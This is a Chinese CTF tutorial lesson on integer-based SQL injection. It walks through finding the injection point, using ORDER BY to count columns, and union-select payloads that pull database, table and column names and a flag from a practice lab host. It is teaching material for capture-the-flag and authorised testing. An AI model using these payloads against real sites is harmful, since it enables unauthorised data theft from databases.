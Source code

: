 
# 第二节：sql注入之sql注入整型报错注入

## 2.0：免责声明

该课程中涉及的技术只适合于CTF比赛和有合法授权的渗透测试。请勿用于其他非法用途，如果作于其他非法用途，与本文作者无关。

## 2.1：上节课程答疑

## #2.1.1：sql注入的最终目的是什么？

sql注入的最终目的就是将非法sql语句带入数据库中进行查询，以此来获取数据库中的数据，有些时候也可以通过sql注入获取系统的权限。

## #2.1.2：我们如何才能实现这个最终目的

简单的来说，这个问题可以解释为sql注入的流程是什么。一次简单的sql注入的流程大致如下：

>1.判断注入点

>2.判断注入类型

>3.获取表名、列明、字段名

>4.查寻

## 2.2:什么是整型注入

sql注入从分类上讲大概可以分为整形注入和字符型注入。

在网站正常的功能设计中，一般通过传入参数的不同来返回不同的内容。如ID、年龄等。如果输入的参数为整形，且存在sql注入。则可以被认为存在sql注入。如果传入的参数为字符，且存在sql注入，则可以认为存在字符型注入。正常情况下，字符型注入需要先进行闭合然后在进行注入。

> 整型注入后台sql语句为 : select * from  table where id =8

>字符型注入的后台sql语句为：select * from tables where username="admin"

## 2.3:整型注入练习环境

>http://39.98.88.18:8080/sql/Less-2/index.php?id=1

## 2.4:sql注入实战

1.判断注入点

在id=1的后面添加一个单引号，然后报出错误。说明此处存在注入。

![](img/2.3/1.png)

加单引号的目的是为了引发报错，从而证明此处存在注入。报错信息说明此处有语法错误.

2.报错语句分析

>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1

我们刚刚在id=1后面添加了一个单引号，此时在后台执行的sql语句为：

>select * from table where id=1'

报错语句中一共有三个引号，其中最左侧，和最右侧的两个引号是语句中为了标明错误的。与后台执行的语句中。剩下的那个引号是我们刚刚自己的添加的。此时，便可以判断这个漏洞为整型sql注入。

3.union联合注入。

整型注入的手工注入一般采用union 联合注入，union的作用是将两个sql语句进行联合。使用时需要注意一下几点：

- union前后的两个sql语句选择的列数必须相同才可以。同时列也必须有相似的数据类型。

- 当两个sql语句进行联合操作时，当前一个语句选择的内容为空，这时候才可以讲后面的语句执行后的结果显示出来。

4.判断列数。

因union联合查询要求前后列数一致，故先判断列数。

>url ： http://39.98.88.18:8080/sql/Less-2/index.php?id=1 order  by 3--+

order by的意思是对数据进行排序，当order by为4时，报错。故此时列数为3列。

![](img/2.3/2.png)

--+表示注释，注释掉后方无用的内容。在注入时，注释必不可少。

5.判断回显位置

在这个网页上，显示数据库查询结果的只有两行。但是union语句要求前后列数一致。我们此时我们要进行判断那一列上的查询会将结果显示出来。

>url : http://39.98.88.18:8080/sql/Less-2/index.php?id=-1%20union%20select%201,2,3%20--+

![](img/2.3/3.png)

6.查寻数据库版本

由上可知，在2,3处会将查询的结果给显示出来，所以构造语句：

>url:http://39.98.88.18:8080/sql/Less-2/index.php?id=-1%20union%20select%201,2,3%20--+

![](img/2.3/4.png)

得出版本为5.5.59.大于5.故存在information_schema.

7.查询数据库名

>url : http://39.98.88.18:8080/sql/Less-2/index.php?id=-1%20union%20select%201,group_concat(schema_name),3%20from%20information_schema.schemata--+

![](img/2.3/5.png)

group_concat: group_concat函数是典型的字符串连接函数,讲查询结果以逗号分隔。连接在一起。

8.查询表名

发现有flag这个数据，查询列名的url如下：

>url :  http://39.98.88.18:8080/sql/Less-2/index.php?id=-1%20union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=%27security%27--+

![](img/2.3/6.png)

9.查询列名

>url : http://39.98.88.18:8080/sql/Less-2/index.php?id=-1%20union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_name=%27flag%27--+

![](img/2.3/7.png)

10.查询数据

>url : http://39.98.88.18:8080/sql/Less-2/index.php?id=-1%20union%20select%201,2,flag%20from%20flag%20--+

![](img/2.3/8.png )

123456789即为我们所需数据。到此一次sql手工注入完成。

## 2.5课后习题

课后习题地址：http://39.98.88.18/challenges#%E6%95%B4%E5%9E%8B%E6%B3%A8%E5%85%A5

## 2.6 小结

CTF（web和内网渗透系列教程）的清单请在“https://github.com/xuanhun/HackingResource” 查看，定时更新最新章节链接

答疑、辅导请加入玄魂工作室--安全圈，一起成长探讨更私密内容。微信扫码了解详情：

![](img/2.3/00.jpeg)

及时获取更多消息，请关注微信订阅号

![](img/2.3/0.jpg)
